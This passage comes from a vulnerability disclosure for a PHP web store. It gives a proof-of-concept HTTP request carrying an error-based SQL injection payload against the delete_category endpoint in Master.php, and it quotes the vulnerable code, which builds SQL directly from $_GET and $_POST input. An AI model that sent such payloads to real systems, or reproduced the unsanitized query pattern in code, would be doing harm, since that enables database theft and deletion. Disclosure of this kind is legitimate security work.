 ```
    $sub_cat_qry = $conn->query("SELECT * FROM sub_categories where md5(id) = '{$_GET['s']}'");
    if($sub_cat_qry->num_rows > 0){
        $title = $sub_cat_qry->fetch_assoc()['sub_category'];
    }
}
?>
```

# 5.SQL injection vulnerability in ./classes/Master.php

### Sample request POC #5

```
POST /classes/Master.php?f=delete_category HTTP/1.1
Host: 10.211.55.3:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

id=' AND GTID_SUBSET(CONCAT(0x717a6a7071,(SELECT (ELT(3659=3659,1))),0x71707a7071),3659)-- Hjjr

```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683795996688.jpg "Online Computer and Laptop Store - Multiple vulnerabilities")

### Related Codes ./classes/Master.php
```
...
	function delete_category(){
		extract($_POST);
		$del = $this->conn->query("DELETE FROM `categories` where id = '{$id}'");
		if($del){
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success',"Category successfully deleted.");
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);

	}
...
```
